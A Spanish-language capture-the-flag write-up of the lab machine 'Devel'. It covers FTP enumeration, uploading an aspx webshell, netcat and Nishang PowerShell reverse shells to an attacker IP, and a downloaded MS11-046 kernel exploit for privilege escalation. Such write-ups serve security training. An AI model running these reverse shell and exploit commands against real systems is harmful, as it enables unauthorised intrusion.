








# Devel



**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Priviledge Escalation](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|FTP-Web|Kernel|

#
## 2. Enumeracion<a name="id1"></a>

### 2.1 Nmap

* Se lanza un escano **tcp port syns** scan jugando con el **min-rate** para no emitir paquetes más lentos que 5000 paquetes por segundo . Como resultado, se obtiene que los puertos 21 (ftp) y 80 (http) están abiertos.



* Se lanzan una serie de scripts básicos de enumeración y para detectar la versión del puerto. La salida revela que el puerto 21 (ftp) tiene el acceso "anonymous" habilitado por defecto.



### 2.2 Web

* Haciendo uso de firefox, se analiza el contenido de la página web junto con las herramientas de desarrollador. 

* Destaca un archivo, la imagen **welcome.png**. Mismo nombre que se encuentra en el directorio raiz del ftp.



* Se prueba a subir vía ftp un archivo index.html. Si el servicio web hace uso del directorio raiz del servicio ftp para cargar los archivos, éste reproducirá el contenido del index.html.



* Wappalycer revela que se trata de un framework ASP.NET por lo que se puede subir una **webshell** en aspx para ejecutar código en la **máquina**.

#
## 3. Explotación<a name="id3"></a>

### 3.1 WebShell

* Haciendo uso de las **seclists** se localiza una cmd.aspx para subir al servidor vía ftp y un nc.exe para entablar una reverse shell.

```ftp
ftp> binary # Muy importante, error muy común
200 Type set to I.

ftp> put cmd.aspx 
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1400 bytes sent in 0.00 secs (16.2822 MB/s)

ftp> put nc.exe 
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.01 secs (3.8814 MB/s)
ftp>
```

### 3.2 Reverse Shell con nc.exe

* El directorio raiz que utiliza ASP.NET es C:\inetpub\wwwroot\.



```bash
C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.20 443
```

```bash 
rlwrap nc -lvnp 443
```

### 3.3 Reverse shell con Nishang

* Compartimos la shell en powershell com **impacket-smbserver** dando soporte a SMB2.

```bash
impacket-smbserver shell . -smb2support
```

* Finalmente se ejecuta el script en powershell. Para ello fue necesario permitir explicitamente la ejecución de scripts en powershell.

```bash
powershell -ExecutionPolicy Bypass \\10.10.14.20\SHELL\Invoke-PowerShellTcp.ps1
```



#
## 4. Priviledge Escalateion<a name="id4"></a>

### 4.1 CVE-2011-1249 - MS11-046

* La forma mas fácil es buscar el copilado  en un repositorio de github. https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2011-1249. Finalmente este copilado se traslada a la máquina y se ejecuta obteniendo privilegios de NT Authority System.




